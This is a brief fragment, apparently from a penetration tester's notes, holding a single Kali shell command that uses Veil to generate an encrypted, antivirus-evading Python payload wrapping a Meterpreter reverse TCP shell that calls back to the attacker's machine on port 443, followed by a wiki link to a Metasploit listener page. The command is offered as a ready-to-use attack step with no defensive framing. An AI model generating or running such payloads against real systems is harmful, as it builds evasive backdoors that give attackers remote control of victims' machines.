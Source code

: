 ```bash - kali
./Veil.py -l python -p AESVirtualAlloc -o python_payload --msfpayload windows/Meterpreter/reverse_tcp --msfoptions LHOST=$KALI $LPORT=443
```
[[10._TOOLS/Metasploit#Meterpreter Listener 1 Liner]]
